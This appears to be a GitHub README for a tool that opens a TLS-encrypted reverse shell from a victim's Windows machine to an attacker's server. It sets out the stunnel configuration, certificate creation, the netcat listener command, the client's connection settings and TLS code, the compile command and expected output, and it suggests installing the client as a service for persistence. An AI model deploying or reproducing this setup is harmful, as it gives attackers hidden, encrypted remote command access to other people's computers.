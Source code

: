 # STunnell_RevShell
A Reverse shell through Stunnel.
## Architecture
- Client Net4.8 C#
- Server Stunnell4

## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/lguerra.pem
	
	 
Here we set stunnel listening for incoming connection on port 9999. This connection is encrypted, then forwards the stream  to port 6666 where we will have nc listening. This flow is not encrypted of course.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
Start stunnell

	service stunnel4 start
	
Check if works:

	sudo service stunnel4 status
	● stunnel4.service - LSB: Start or stop stunnel 4.x (TLS tunnel for network daemons)
	     Loaded: loaded (/etc/init.d/stunnel4; generated)
	     Active: active (running) since Tue 2024-05-21 22:11:47 CEST; 5s ago
	       Docs: man:systemd-sysv-generator(8)
	    Process: 133285 ExecStart=/etc/init.d/stunnel4 start (code=exited, status=0/SUCCESS)
	      Tasks: 3 (limit: 9398)
	     Memory: 4.2M (peak: 4.6M)
	        CPU: 241ms
     	CGroup: /system.slice/stunnel4.service
             └─133301 /usr/bin/stunnel4 /etc/stunnel/stunnel.conf


Verify stunnell port is listening:	

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Configure the client
Set the Stunnell server and port around line 50:

	//CONFIG THIS: point to the Stunell server
        string IP = "192.168.1.2";
        int PORT = 9999;
## TLS configuration
The client use TLS 1.3 (teseted on windows 11) to connect to the server:

	sslStream.AuthenticateAsClient("host.local", 
		new X509CertificateCollection(), 
		SslProtocols.Tls13, 
		false);

## Compile the client
Youn can compile the client as follows:

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe STunnel_RevShell.cs
	
	
Executing Program.exe we should read the following on the shell

	ver 1.0 Coded by GuerraIT
	ver 1.1 Modified by Zinzloun (support TLS 1.3)
	
	Using the following connection 192.168.1.7:9999
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxxxx ......
The you shoud get a CMD shell on the attacker

## Exceptions use case: missing server connection
### nc is not listening on the server
Since the client app can connect to Stunnell but not to nc, it will continue to send requests to the server. You will see on the console the certificate info looping:
	
 	...
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
 	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	...
At soon as the nc listener is started on the server the client will connect immediately, stopping to print the certificate information; you will get the shell.

## Stunnell service is not reachable
In this case the client will keep to try to connect to Stunnel. You won't get the certificate information printed in this case, only the following line:

	...
	Using the following connection 192.168.1.7:9999
As soon as the client can connect to Stunnel the app will switch to the previous state (looping certificate info printend on the screen). If nc listener is also started on the server you will get a shell.

## Persistence
You can use the app as a service

## Trouble shooting on Kali
If you get the following error re-starting stunnel:

	sudo service stunnel4 status
	...
 	Active: failed (Result: exit-code) since Tue 2024-05-21 22:04:54 CEST; 2min 21s ago
  	stunnel4.service: Failed with result 'exit-code'.
	stunnel4.service: Unit process 52254 (stunnel4) remains running after unit stopped.

It seems a bug on Debian related to the PID file, to solve try to manually kill the related process 

 	sudo kill -9 52254

Then restart the service

		

